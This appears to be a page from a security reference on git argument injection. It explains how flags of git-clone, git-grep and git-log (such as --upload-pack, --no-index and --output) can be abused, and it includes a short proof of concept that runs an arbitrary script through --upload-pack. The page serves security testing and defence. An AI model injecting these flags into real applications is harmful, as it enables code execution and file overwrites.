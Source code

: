 References:
- [git-remote-ext docs](https://git-scm.com/docs/git-remote-ext)

### &lt;directory&gt;

`git-clone` allows specifying a new directory to clone into. Cloning into an existing directory is only allowed if the directory is empty. You can use this to write a repo outside a default folder.

```bash
$ git clone -- "<REPO>" target_directory
```

### -u/--upload-pack

[upload-pack](https://git-scm.com/docs/git-clone#Documentation/git-clone.txt--ultupload-packgt) specifies a non-default path for the command run on the other end when the repository to clone from is accessed via ssh. You can execute arbitrary code like this:

```bash
$ mkdir repo
$ cd repo
$ git init
$ cd -
$ echo "#!/bin/bash" > payload.sh
$ echo "echo 'arbitrary payload here'" >> payload.sh
$ chmod +x payload.sh
$ git clone --upload-pack=payload.sh repo
```

References:
- [Write up: Securing Developer Tools Package Managers - Argument Injections in Bundler and Poetry](https://blog.sonarsource.com/securing-developer-tools-package-managers)

## git-grep

{% embed url="https://git-scm.com/docs/git-grep" %}

### --no-index

`no-index` tells the git-grep to search files in the current directory that is not managed by Git. In other words, if a working directory is different from a repository one `no-index` allows you to get access to files in the working directory.

References:
- [Report: Git flag injection - Search API with scope 'blobs'](https://hackerone.com/reports/682442)

## git-log

{% embed url="https://git-scm.com/docs/git-log" %}

### --output

`output` defines a specific file to output instead of stdout. You can use this to rewrite arbitrary files.
